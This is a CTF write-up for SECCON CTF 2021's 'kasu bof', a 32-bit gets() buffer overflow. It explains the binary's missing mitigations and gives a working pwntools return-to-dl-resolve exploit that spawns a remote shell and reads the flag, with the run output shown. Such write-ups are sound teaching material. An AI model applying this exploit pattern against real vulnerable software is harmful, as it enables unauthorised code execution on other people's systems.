 # SECCON CTF 2021

## kasu bof

> 112
>
> Do you understand return-to-dl-resolve attack on 32-bit?
> 
> `nc hiyoko.quals.seccon.jp 9001`
>
> Author: ptr-yudai
> 
> [`kasu_bof.tar.gz`](kasu_bof.tar.gz)

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _ret2dlresolve_


## Summary

LOL, this is the first time I read the challenge description, but yes, this an easy 32-bit _return-to-dl-resolve_ challenge.

> I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:
>
> [https://syst3mfailure.io/ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve)  
> [https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)
> 
> The challenge author also posted his [solution](solver.py) to the SECCON CTF 2021 Discord in #pwn.  I'm unaware of any external link, so I've included as part of this writeup.  This is a very good resource to follow if you want to understand how to roll-your-own.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

At least three conditions must be met for _ret2dlresolve_, No PIE (or a base process leak), No canary (or a canary leak, or some other way to get write down stack), and Partial RELRO.  We're all clear here.


### Decompile with Ghidra

```c
undefined4 main(void)
{
  char local_88 [128];
  undefined4 local_8;
  
  local_8 = 0;
  gets(local_88);
  return 0;
}
```

`gets` and the lack of mitigations above = easy shell with _ret2dlresolve_.

*Are there other methods?*

Perhaps, however there's not a lot to work with.  No leaks, and nothing else in the GOT.  IOW, we're blind, no output until we get a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./kasu')

dl = Ret2dlresolvePayload(binary, symbol='system', args=['/bin/sh'])

rop = ROP(binary)
rop.gets(dl.data_addr,len(dl.payload))
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('hiyoko.quals.seccon.jp', 9001)
else:
    p = process(binary.path)

payload  = b''
payload += 0x88 * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

Almost straight from: [https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html).

All we need to figure out is the `0x88` (end of the stack frame where the return address is), and we get this for free from Ghidra (.e.g `local_88`).


```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/seccon2021/kasu/kasu'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded 11 cached gadgets for './kasu'
[+] Opening connection to hiyoko.quals.seccon.jp on port 9001: Done
[*] Switching to interactive mode
$ id
uid=999(pwn) gid=999(pwn) groups=999(pwn)
$ ls -l
total 20
-r-xr-x--- 1 root pwn 15336 Dec  8 14:09 chall
-r--r----- 1 root pwn    36 Dec  8 14:09 flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
```
